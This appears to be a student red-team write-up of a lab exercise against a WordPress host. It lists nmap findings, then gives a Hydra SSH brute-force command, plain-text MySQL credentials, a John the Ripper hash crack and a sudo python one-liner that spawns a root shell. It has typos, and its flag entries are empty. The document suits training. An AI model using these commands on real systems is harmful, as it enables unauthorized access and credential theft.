

# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 - SSH
  - Port 80 - HTTP
  - Port 111 - rpcbind
  - Port 139 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)
  - Port 445 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)

The following vulnerabilities were identified on each target:
- Target 1
  - SSH exposed to bruce force Attempts without multifactor authentication
  - HTTP port 80 allows for web traffic to pass through, and can expose files if not properly managed
  - NeBIOS Port 139 - If this system is going to be exposed to the internet it is advised to block this port from being accessed.
  - NetBIOS SMB port 445 - used in wannacry and notPetya ransomware attacks.  It is advised not to expose this to the internet like you would with a wordpress server.

wpscan -o ~/Desktop/wpscan_output --url http://1292.168.1.110/wordpress




### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `michael`: _Password: 'michael'_
    - **Exploit Used**
      - _Hydra: hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110:22 -t 4_
      - _Alternative: Guessing_
      - _Alternative: Credential Stuffing_


  - `root`: _`mySQL` Password: R@v3nSecurity_
    - **Exploit Used**
      - _Used brute force credentials to gain ssh access_
      - _Discovered Credentials in plain text in config file_
      - _mysql -u root -p wordpress_


  - `steven`: `Password:`_"pink84"_ `Hash:`_"See Image Below"_
    - **Exploit Used**
      - _mysql -u root -p wordpress_
      - _John the Ripper with RockYou Dictionary attack_
      - `sudo python -c 'import os; os.system("/bin/sh")'`_to gain root privilege_


- Flags

Flag 1:


Flag 2:


Flag 3:


Flag 4:

